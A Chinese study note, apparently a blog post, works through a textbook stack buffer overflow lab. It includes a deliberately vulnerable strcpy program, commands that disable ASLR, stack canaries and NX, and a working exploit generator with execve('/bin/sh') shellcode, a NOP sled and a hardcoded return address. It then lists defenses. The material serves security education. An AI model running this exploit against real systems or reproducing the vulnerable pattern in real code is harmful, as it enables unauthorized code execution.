




## 前言

缓冲区溢出攻击，久慕大名，如雷贯耳。

今天我们简单看看它的庐山真面目。

在这之前，我们需要掌握如下背景：

* [程序在内存中的布局](https://blog.csdn.net/sinat_38816924/article/details/106081193)
* [gdb调试之栈帧信息](https://blog.csdn.net/sinat_38816924/article/details/106086366)

来源：《Computer Security》A Hands-on Approach   — Wenliang Du

书上的内容介绍逻辑很好，这里简单做个笔记，**详细内容见书上**。

---

[toc]

## 摘要和总结

简单介绍缓冲区溢出攻击原理；

关闭防护措施，进行缓冲器溢出攻击实验；

最后从不同层次简单提及缓冲区溢出的防御措施；

<br><br>

## 原理

### 图解

原理理解起来并没有难度。





大致如上所示。通过缓冲区溢出，覆盖返回地址。

返回地址跳转到我们**栈中恶意代码**。

这样便完成了缓冲区溢出攻击。

<br>

### 模拟代码

```c
/**
 * 用来演示缓冲区溢出攻击:stack.c
 * sudo sysctl -w kernel.randomize_va_space=0
 * gcc -g -fno-stack-protector -z execstack -o stack stack.c
 * badfile 的生成，我们放在后面
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *src){
    char buffer[100]={0};

    strcpy(buffer,src);
}


int main(void){

    char src[400]={0};

    FILE *badfile = fopen("badfile","r");
    if (!badfile){
        printf("no open badfile");
        return 0;
    }

    fread(src,sizeof(char),300,badfile);

    func(src);

    printf("return properly\n");
    return 0;    
}
```

<br>

## 实现

### 关闭防护措施

无奈哈，现在不关闭保护措施，搞不来。:dog:

参考：[linux程序的常用保护机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/) 、[Linux平台的ASLR机制](https://blog.csdn.net/Plus_RE/article/details/79199772)

1. 内存地址随机化机制（address space layout randomization)

   [Linux系统中sysctl命令详解 ：-w临时改变某个指定参数的值](https://blog.csdn.net/hxpjava1/article/details/79444116)

   * 0 - 表示关闭进程地址空间随机化。
   * 1 - 表示将mmap的基址，stack和vdso页面随机化。
   * 2 - 表示在1的基础上增加栈（heap）的随机化。

   我没敢在真机上尝试，我在虚拟机上实验。

   `sudo sysctl -w kernel.randomize_va_space=0`

2. CANNARY(栈保护)

   这部分内容，可以通过gdb调试看到。(具体见书上)

   canary是一种用来防护栈溢出的保护机制。其原理是在一个函数的入口处，先从fs/gs寄存器中取出一个4字节(eax)或者8字节(rax)的值存到栈上，当函数结束时会检查这个栈上的值是否和存进去的值一致

   ```shell
   gcc -o test test.c						// 默认情况下，不开启Canary保护
   gcc -fno-stack-protector -o test test.c  //禁用栈保护
   gcc -fstack-protector -o test test.c   //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
   gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码
   ```

3. NX（DEP）

   NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。

   ```shell
   gcc -o test test.c					// 默认情况下，开启NX保护
   gcc -z execstack -o test test.c		// 禁用NX保护
   gcc -z noexecstack -o test test.c	// 开启NX保护
   ```

4. 使用gdb里peda插件里自带的checksec查看

   `gcc -g -fno-stack-protector -z execstack -o stack stack.c`

   参考：[GDB实用插件(peda, gef, gdbinit)全解]https://blog.csdn.net/gatieme/article/details/63254211

   

<br>

### 生成badfile文件

这个badfile文件要求

* 不能包含'\0' ,否者复制的时候，遇到'\0'结束。
* 覆盖返回地址内容，跳转后，可以到达恶意代码。

```c
/**
 * 用来生成包含恶意代码的文件
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

/*shellcode暂时不关心，汇编和二进制的转换*/
char shellcode[]=
    "\x31\xc0"   /*xorl %eax,%eax*/
    "\x50"       /*pushl %eax*/
    "\x68""//sh" /*pushl $0x68732f2f  这是ASCII值*/
    "\x68""/bin" /*pushl $0x6e69622f*/
    "\x89\xe3"   /*movl %esp,%ebx*/
    "\x50"       /*pushl %eax*/
    "\x53"       /*pushl %ebx*/
    "\x89\xe1"   /*movl %esp,%ecx*/
    "\x99"       /*cdp*/
    "\xb0\x0b"   /*movb $0x0b,%al*/
    "\xcd\x80"   /*int $0x80*/
;

void main(){
     /*因为stack.c中一次最多读取300,我这里希望有更多的nop指令，增加命中概率*/
    char buffer[300];

    FILE *badfile;

    /*x86 CPU上的NOP指令实质上是XCHG EAX, EAX（操作码同为0x90）--无任何作用的指令。*/
    memset(&buffer,0x90,sizeof(buffer));

    /*原来的返回地址被nop覆盖，这里我们让它在本地，如果没有成功，增大它的值
     *因为书上说，调试的时候，会在栈的前面压入一些内容，而运行的时候没有
     *导致栈相对运行的时候，较深。
     */
    *((long *)(buffer+112)) = 0xbfffea98 + 0x80;

    /*将shellcode保存在最后*/
    memcpy(buffer+sizeof(buffer)-sizeof(shellcode),shellcode,sizeof(shellcode));

    /*将buffer写入文件*/
    badfile = fopen("badfile","w");
    fwrite(buffer,sizeof(char),sizeof(buffer),badfile);
    fclose(badfile);
}
```

1. 其中`0xbfffea98`，是**我们调试源码，它调用函数的返回地址。**
2. `112`是buffer和栈帧之间的距离。
3. 这个代码生成badfile，作为stack输入。 <font color=red>用空指令(NOP)填充缓冲区,单独覆盖返回地址。根据返回地址进行跳转，向上跳转，只要跳转目的地址的指令还是空指令，便可以执行到恶意代码。</font>
4. 虚拟机是32为系统，所以上面的shellcode如上面所示。[syscall_32.tbl](https://github.com/torvalds/linux/blob/v3.13/arch/x86/syscalls/syscall_32.tbl)　、[Syscall Table for x86 and x86_64](https://filippo.io/linux-syscall-table/)

5. [64位下shellcode生成](https://blog.csdn.net/raintungli/article/details/43865041)

<br>

### 结果



但是吧，我们并不能获取特权sh，即使再`stack`是特权程序。

这个我们在第一章，使用特权程序的时候便知道了。

但sh的切换，说明缓冲区溢出攻击成功。

或许我们可以把shellcode里的内容，填充为反弹shell。

暂时，忽略，shellcode中二进制和汇编的转换过程。

<br>

## 防护

我们可以从不同的层次(角度)，进行防御。

书上介绍的较少，我也不怎么清楚。

1. 更安全的函数　---> `strncpy`代替`strcpy`的使用
2. 更安全的动态链接库　--> [基于Libsafe库的缓冲区溢出检测算法改进](http://www.ssc.net.cn/files/pdf/53_5.pdf)
3. 更安全的编程语言　--> [Rust：一个不再有 C/C++ 的，实现安全实时软件的未来](https://www.infoq.cn/article/dgKDBiPl7KID0dyaE7Wl)
4. 编译器　---> 上面关闭的栈保护(StackGuard)
5. 操作系统　---> 内存地址随机化机制（address space layout randomization)

6. 硬件架构　---> NX位，CPUs使代码和数据分离。不将栈中数据作为指令执行。